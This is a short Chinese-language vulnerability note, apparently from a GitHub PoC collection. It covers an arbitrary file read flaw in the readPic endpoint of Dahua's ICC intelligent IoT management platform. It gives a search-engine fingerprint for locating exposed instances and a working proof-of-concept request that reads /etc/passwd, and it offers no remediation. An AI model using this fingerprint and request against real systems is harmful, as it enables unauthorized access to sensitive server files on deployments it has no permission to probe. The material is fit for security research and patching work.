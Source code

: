 # 大华 ICC智能物联综合管理平台 readPic 任意文件读取漏洞

# 大华 ICC智能物联综合管理平台 readPic 任意文件读取漏洞

## 漏洞描述

大化 ICC智能物联综合管理平台 readPic 接口存在任意文件读取漏洞，攻击者通过漏洞可以获取服务器中的敏感文件

## 漏洞影响

大华 ICC智能物联综合管理平台

## 网络测绘

```
body="*客户端会小于800*"
```

## 漏洞复现

登陆页面

![image-20231116141833821](images/image-20231116141833821.png)

poc

```
/evo-apigw/evo-cirs/file/readPic?fileUrl=file:/etc/passwd
```

![image-20231116141852063](images/image-20231116141852063.png)

